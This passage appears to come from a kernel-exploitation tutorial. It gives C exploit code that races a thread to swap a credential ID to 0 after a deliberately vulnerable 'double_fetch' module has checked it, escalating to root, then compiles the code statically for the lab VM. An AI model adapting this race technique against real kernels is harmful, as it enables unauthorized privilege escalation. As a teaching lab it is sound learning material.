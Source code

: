 ```c
    // communicate with the module
    int fd = open("/dev/double_fetch", O_RDWR);
    printf("FD: %d\n", fd);

    // use a random ID and set the password correctly
    Credentials creds;
    creds.id = 900;
    strcpy(creds.password, "p4ssw0rd");

    // set up the switcher thread
    // pass it a pointer to `creds`, so it can modify it
    pthread_t thread;

    if (pthread_create(&thread, NULL, switcher, &creds)) {
        fprintf(stderr, "Error creating thread\n");
        return -1;
    }

    // now we write the cred struct to the module
    // it should be swapped after about .3 seconds by switcher
    int res_id = write(fd, &creds, 0);

    // write returns the id we switched to
    // if all goes well, that is 0
    printf("New ID: %d\n", res_id);

    // finish thread cleanly
    if (pthread_join(thread, NULL)) {
        fprintf(stderr, "Error joining thread\n");
        return -1;
    }

    return 0;
}

void *switcher(void *arg) {
    Credentials *creds = (Credentials *)arg;

    // wait until the module is sleeping - don't want to change it BEFORE the initial ID check!
    sleep(0.3);

    creds->id = 0;
}
```
{% endcode %}

We have to compile it statically, as the VM has no shared libraries.

```bash
$ gcc -static -o exploit -pthread exploit.c
```
